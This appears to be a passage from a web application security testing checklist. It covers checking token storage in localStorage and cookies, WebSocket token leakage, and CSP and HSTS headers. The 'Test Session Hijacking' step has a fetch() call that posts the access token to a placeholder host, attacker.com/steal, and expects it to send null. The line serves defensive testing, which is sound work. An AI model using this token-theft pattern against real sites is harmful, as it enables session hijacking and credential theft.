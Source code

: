 #### Test Token in localStorage
```javascript
// Check localStorage
console.log(localStorage.getItem('access_token'));
// Should be: null

// Check cookies
document.cookie.split(';').forEach(c => console.log(c));
// Should see: access_token with HttpOnly flag
```

#### Test Session Hijacking
```javascript
// Try to steal token
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: localStorage.getItem('access_token')
});
// Should send: null (no token in localStorage)
```

---

### 4. WebSocket Testing

#### Test Token Leakage
```bash
# Check server logs for WebSocket connections
# Should NOT see tokens in URLs
grep "token=" /var/log/nginx/access.log
# Should return: no matches
```

#### Test WSS Enforcement
```bash
# Try connecting with ws:// in production
# Should automatically upgrade to wss://
```

---

## Security Headers Testing

### Test CSP
```bash
# Check Content-Security-Policy header
curl -I https://your-domain.com | grep -i content-security-policy

# Expected:
# Content-Security-Policy: default-src 'self'; ...
```

### Test HSTS
```bash
# Check Strict-Transport-Security header
curl -I https://your-domain.com | grep -i strict-transport-security

# Expected:
# Strict-Transport-Security: max-age=31536000; includeSubDomains
```

